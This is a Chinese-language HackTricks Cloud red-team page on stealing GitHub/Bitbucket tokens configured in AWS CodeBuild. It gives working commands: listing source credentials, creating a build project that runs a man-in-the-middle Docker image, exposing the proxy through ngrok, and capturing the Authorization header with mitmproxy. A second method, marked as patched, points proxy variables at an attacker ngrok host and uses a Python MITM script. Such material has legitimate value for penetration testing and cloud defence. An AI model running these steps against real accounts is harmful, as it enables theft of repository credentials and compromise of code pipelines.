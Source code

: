 # AWS Codebuild - Token Leakage

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 恢复 Github/Bitbucket 配置的令牌

首先，检查是否配置了任何源凭据，以便您可以泄露：
```bash
aws codebuild list-source-credentials
```
### 通过 Docker 镜像

如果你发现例如 Github 的认证已在账户中设置，你可以通过让 Codebuild **使用特定的 docker 镜像** 来运行项目的构建，从而 **提取** 该 **访问** （**GH token 或 OAuth token**）。

为此，你可以 **创建一个新的 Codebuild 项目** 或更改现有项目的 **环境** 以设置 **Docker 镜像**。

你可以使用的 Docker 镜像是 [https://github.com/carlospolop/docker-mitm](https://github.com/carlospolop/docker-mitm)。这是一个非常基础的 Docker 镜像，将设置 **环境变量 `https_proxy`**、**`http_proxy`** 和 **`SSL_CERT_FILE`**。这将允许你拦截在 **`https_proxy`** 和 **`http_proxy`** 中指示的主机的大部分流量，并信任在 **`SSL_CERT_FILE`** 中指示的 SSL 证书。

1. **创建并上传你自己的 Docker MitM 镜像**
* 按照仓库的说明设置你的代理 IP 地址并设置你的 SSL 证书，然后 **构建 docker 镜像**。
* **不要设置 `http_proxy`** 以避免拦截对元数据端点的请求。
* 你可以使用 **`ngrok`**，例如 `ngrok tcp 4444` 来将代理设置为你的主机。
* 一旦你构建了 Docker 镜像，**将其上传到公共仓库**（Dockerhub, ECR...）。
2. **设置环境**
* 创建一个 **新的 Codebuild 项目** 或 **修改** 现有项目的环境。
* 设置项目使用 **之前生成的 Docker 镜像**。

<figure><img src="../../../../.gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

3. **在你的主机上设置 MitM 代理**

* 如 **Github 仓库** 中所示，你可以使用类似的命令：
```bash
mitmproxy --listen-port 4444  --allow-hosts "github.com"
```
{% hint style="success" %}
使用的 **mitmproxy 版本是 9.0.1**，据报道在版本 10 中这可能无法工作。
{% endhint %}

4. **运行构建并捕获凭证**

*   您可以在 **Authorization** 头中看到令牌：

<figure><img src="../../../../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

这也可以通过 aws cli 以类似的方式完成

{% code overflow="wrap" %}
```bash
# Create project using a Github connection
aws codebuild create-project --cli-input-json file:///tmp/buildspec.json

## With /tmp/buildspec.json
{
"name": "my-demo-project",
"source": {
"type": "GITHUB",
"location": "https://github.com/uname/repo",
"buildspec": "buildspec.yml"
},
"artifacts": {
"type": "NO_ARTIFACTS"
},
"environment": {
"type": "LINUX_CONTAINER", // Use "ARM_CONTAINER" to run docker-mitm ARM
"image": "docker.io/carlospolop/docker-mitm:v12",
"computeType": "BUILD_GENERAL1_SMALL",
"imagePullCredentialsType": "CODEBUILD"
}
}

## Json

# Start the build
aws codebuild start-build --project-name my-project2
```
{% endcode %}

### ~~通过HTTP协议~~

{% hint style="success" %}
**这个漏洞在2023年2月20日那一周的某个时候被AWS修复了（我认为是在星期五）。所以攻击者无法再利用它了 :)**
{% endhint %}

具有**在CodeBuild中提升权限的攻击者可能会泄露配置的Github/Bitbucket令牌**，或者如果权限是通过OAuth配置的，则**用于访问代码的临时OAuth令牌**。

* 攻击者可以将环境变量**http\_proxy**和**https\_proxy**添加到CodeBuild项目，指向他的机器（例如`http://5.tcp.eu.ngrok.io:14972`）。

<figure><img src="../../../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../../.gitbook/assets/image (213).png" alt=""><figcaption></figcaption></figure>

* 然后，将github仓库的URL更改为使用HTTP而不是HTTPS，例如：\*\*http://\*\*github.com/carlospolop-forks/TestActions
* 然后，在代理变量（http\_proxy和https\_proxy）指向的端口上运行[https://github.com/synchronizing/mitm](https://github.com/synchronizing/mitm)中的基本示例。
```python
from mitm import MITM, protocol, middleware, crypto

mitm = MITM(
host="127.0.0.1",
port=4444,
protocols=[protocol.HTTP],
middlewares=[middleware.Log], # middleware.HTTPLog used for the example below.
certificate_authority = crypto.CertificateAuthority()
)
mitm.run()
```
* 最后，点击 **Build the project**，**凭证**将以 **明文**（base64）发送到 mitm 端口：

<figure><img src="../../../../.gitbook/assets/image (159).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
现在攻击者将能够使用他机器上的令牌，列出它拥有的所有权限，并且比直接使用 CodeBuild 服务更容易（滥用）。
{% endhint %}

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
